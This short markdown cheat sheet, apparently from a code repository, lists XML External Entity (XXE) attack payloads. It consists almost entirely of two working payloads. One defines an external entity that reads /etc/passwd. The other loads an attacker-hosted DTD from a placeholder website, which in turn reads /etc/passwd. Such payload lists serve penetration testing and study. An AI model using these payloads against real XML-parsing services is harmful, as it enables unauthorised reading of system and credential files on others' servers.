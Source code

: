 # XXE

## 1) Direct

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [ 
  <!ENTITY xxe SYSTEM "/etc/passwd">
] >
<site>
    <vuln>Vuln &xxe;</vuln>
</site>
```

## 2) External DTD

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [
  <!ENTITY % a SYSTEM "http://yourwebsite.com/ex.dtd">
  %a;
  %xxe;
] >
<site>
    <vuln>Vuln &xxe;</vuln>
</site>
```

file http://yourwebsite.com/ex.dtd
```
<!ENTITY % test SYSTEM "file:///etc/passwd">
<!ENTITY % xxe '<!ENTITY test "%test;">'>
```
